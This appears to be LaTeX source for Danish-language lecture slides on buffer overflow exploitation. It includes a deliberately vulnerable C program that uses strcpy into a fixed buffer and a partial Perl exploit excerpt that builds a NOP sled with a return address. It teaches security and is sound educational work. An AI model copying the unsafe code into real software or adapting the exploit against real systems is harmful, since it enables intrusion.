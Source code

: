 \documentclass[Screen16to9,17pt]{foils}
\begin{document}


\begin{verbatim}
main(int argc, char **argv)
{      char buf[200];
        strcpy(buf, argv[1]);
        printf("%s\n",buf);
}
\end{verbatim}




\begin{list2}
\item Bad function overwrites return value!
\item Control return address
\item Run shellcode from buffer, or from other place
\end{list2}



\begin{list2}
\item Exploit/exploitprogram er udnytter en sårbarhed rettet mod et specifikt system.
\item Kan være 5 linier eller flere sider ofte Perl, Python eller et C program
\end{list2}

Eksempel demo i Perl, uddrag:
\begin{verbatim}
$buffer = "";
$null = "\x00";
$nop = "\x90";
$nopsize = 1;
$len = 201; // what is needed to overflow, maybe 201, maybe more!
$the_shell_pointer = 0x01101d48; // address where shellcode is
# Fill buffer
for ($i = 1; $i < $len;$i += $nopsize) {
    $buffer .= $nop;
}
$address = pack('l', $the_shell_pointer);
$buffer .= $address;
exec "$program", "$buffer";
\end{verbatim}



\begin{list1}
\item Black box testing
\item Closed source reverse engineering
\item White box testing
\item Open source betyder man kan læse og analysere koden
\item Source code review -- automatisk eller manuelt
\item Fejl kan findes ved at prøve sig frem -- fuzzing
\item Exploits virker typisk mod specifikke versioner af software
\end{list1}
\end{document}
